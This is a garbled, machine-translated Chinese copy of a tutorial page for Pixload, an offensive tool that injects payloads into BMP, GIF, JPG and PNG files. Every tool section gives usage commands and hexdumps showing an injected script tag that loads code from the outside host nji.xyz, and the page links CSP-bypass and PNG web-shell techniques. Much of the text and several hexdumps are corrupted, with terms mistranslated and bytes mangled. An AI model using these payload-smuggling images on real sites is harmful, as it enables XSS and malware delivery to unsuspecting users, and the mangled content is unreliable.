

# Pixload:图像有效载荷创建/注入工具

> 原文：<https://kalilinuxtutorials.com/pixload-image-payload-creating-injecting/>

Pixload 是一套用于创建/注入有效载荷到图像中的工具。有助于更好地理解 pixload 及其使用案例的有用参考资料:

*   [使用多语言 JPEGs 绕过 CSP](https://portswigger.net/blog/bypassing-csp-using-polyglot-jpegs)
*   [黑客组织利用多语言图像隐藏恶意攻击](https://devcondetect.com/blog/2019/2/24/hacking-group-using-polyglot-images-to-hide-malvertsing-attacks)
*   [在 PNG IDAT 块中编码 Web 外壳](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
*   [通过 PNGs 在脸书的 XSS&靠不住的内容类型](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
*   [重访巴布亚新几内亚 IDAT 语块中的 XSS 有效载荷](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

如果您希望以这样一种方式对有效负载进行编码，使得生成的二进制 blob 既是有效的 x86 外壳代码又是有效的图像文件，我建议您查看这里和这里。

**也可阅读-[priv Exchange:通过滥用 Exchange](https://kalilinuxtutorials.com/privexchange/)** 将您的权限换取域管理员权限

**设置**

下列 Perl 模块是必需的:

*   绿色发展
*   Image::ExifTool
*   String::CRC32

在`**Debian-based**`系统上安装这些软件包:

sudo 安装 libgd-perl libimage-EXIF tool-perl libstring-crc32-perl

关于`OSX`请参考[这个变通办法](https://github.com/chinarulezzz/pixload/issues/3) (thnx 2 @iosdec)。

**工具**

**bmp.pl**

BMP 有效载荷生成器/注入器。

##### **用法**

。/BMP . pl[-payload ' STRING ']-output payload . BMP

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

##### 举例

。/BMP . pl-output payload . BMP
[>| BMP payload creator/injector |<]
https://github.com/chinarulezzz/pixload

[>生成输出文件
【✔】文件保存到:payload.bmp

[ > ]将 payload 注入 payload . BMP
【✔】payload 注入成功

payload.bmp: PC 位图，OS/2 1.x 格式，1 x 1

0../|
00000020 3d 31 3b 3c 73 63 72 69 70 74 20 73 72 63 3d 2f | = 1；

**gif.pl**

GIF 有效载荷创建者/注入者。

**用法**

。/gif . pl[-payload ' STRING ']-output payload . gif

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将生成新的。

##### **例子**

。/gif . pl-output payload . gif
[>| gif payload creator/injector |<]

https://github.com/chinarulezzz/pixload

[>]生成输出文件
【✔】文件保存到:payload.gif

[ > ]将有效载荷注入 payload . gif
【✔】有效载荷注入成功

payload.gif: GIF 图像数据，版本 87a，10799 x 32
|
000000010 00 00 00 2c 00 00 00 00 20 00 20 00 00 02 1e 84 |…，…。…..|
000000020 8f a9 CB ed 0f a3 9c B4 da 8b B3 de BC FB 0f 86 |………………|
000000030 E2 48 96 E6 89 a6 ea ca B6 ee 0b 9b 05 00 3b 2a |。H………;* |
00000040 2f 3d 31 3b 3c 73 63 72 69 70 74 20 73 72 63 3d |/= 1；

**jpg.pl**

JPG 有效载荷生成器/注入器。

**用法**

。/jpg . pl[-payload ' STRING ']-输出 payload.jpg

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

**例子**

。/jpg . pl-output payload.jpg
[>| JPEG 有效载荷创建者/注入者|<]
https://github.com/chinarulezzz/pixload

[>]生成输出文件
【✔】文件保存到:payload.jpg

[>]将有效载荷注入评论标签
【✔】有效载荷注入成功

有效载荷. jpg: JPEG 图像数据，JFIF 标准 1.01，分辨率(DPI)，密度 96×96，段长 16..`|`
000000010 00 60 00 00 ff Fe 00 21 3c 73 63 72 69 70 74 20 | .`…..！<script |
000000020 73 72 63 3d 2f 6e 6a 69 2e 78 79 7a 3e 3c 2f | src =//nji . XYZ></|
00000030 73 63 72 69 70 74 3e ff db 00 43 00 08 06 06 07 | script>…C…..|
000000040 06 05 08 07 07 07 09 09 08 0a 0c 14 0d 0c 0b 0b |…………|
000000050 0c 19 12 13 0f 14 1d 1a 1f 1e 1d 1a 1c 1c 20 24 |………..$ |
000000060 2e 27 20 22 2c 23 1c 1c 28 37 29 2c 30 31 34 34 |。' ",#..(7)，0144 |
000000070 34 1f 27 39 3d 38 32 3c 2e 33 34 32 ff db 00 43 | 4。9 = 82<. 342…C |
000000080 01 09 09 09 0c 0c 0c 18 0d 0d 18 32 21 1c 21 32 |……..2!。！2 |
00000090 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32 32

**png.pl**

PNG 有效载荷创建器/注入器。

**用法**

。/png . pl[-payload ' STRING ']-输出 payload.png

如果输出文件存在，那么 payload 将被注入到现有文件中。否则将创建一个新的。

##### 举例

。/png . pl-output payload.png

[>| png 有效载荷创建者/注入者|<]

https://github.com/chinarulezzz/pixload[>]生成输出文件

【✔】文件保存到:payload.png
[>]注入有效载荷到 payload.png
[+]chunk size:13
[+]chunk type:ihdr
[+]CRC:fc 18 EDA 3
[+]chunk size:9
[+ CRC:c8 a 288 Fe
[+]Chunk size:0
[+]chunk type:iend

[>]将有效载荷注入新的 chunk:'朋克'
【✔】有效载荷注入成功

payload.png: PNG 图像数据，32 x 32，8 位/彩色 RGB，非隔行扫描

00000000 89 50 47 00a 1a 00 巴布亚新几内亚……..IHDR |
000000010 00 00 00 20 00 00 00 20 08 02 00 00 00 fc 18 ed |……..|
000000020 a3 00 00 00 09 70 48 59 73 00 00 0e C4 00 00 00 0e |…..物理……|
000000030 C4 01 95 2b 0e 1b 00 00 00 19 49 44 41 54 48 89 | …+……IDATH。|
00000040 ed C1 31 01 00 00 00 C2 A0 F5 4f ed 61 0d A0 00 |..1……. o . a…|
000000050 00 00 6e 0c 20 00 01 c8 a2 88 Fe 00 00 00 00 00 49 |..……I |
00000060 45 4e 44 AE 42 60 82 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | END。B`……。|
000000070 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 |……。|
*
000000 c0 00 1f 70 55 6e 6b 3c 73 63 72 69 70 74 20 73 72 |..朋克<剧本 Sr |
000000 d0 63 3d 2f 2f 6e 6a 69 2e 78 79 7a 3e 3c 2f 73 63 | c =//nji . XYZ>/sc |
000000 E0 72 69 70 74 3e 9d 11 54 97 00 49 45 4e 44 | script>..T..IEND|
000000ee

**免责声明**

作者对这个工具的不良使用不承担任何责任，记住未经事先同意攻击目标是违法的，要受到法律的制裁。

[**Download**](https://github.com/chinarulezzz/pixload#jpgpl)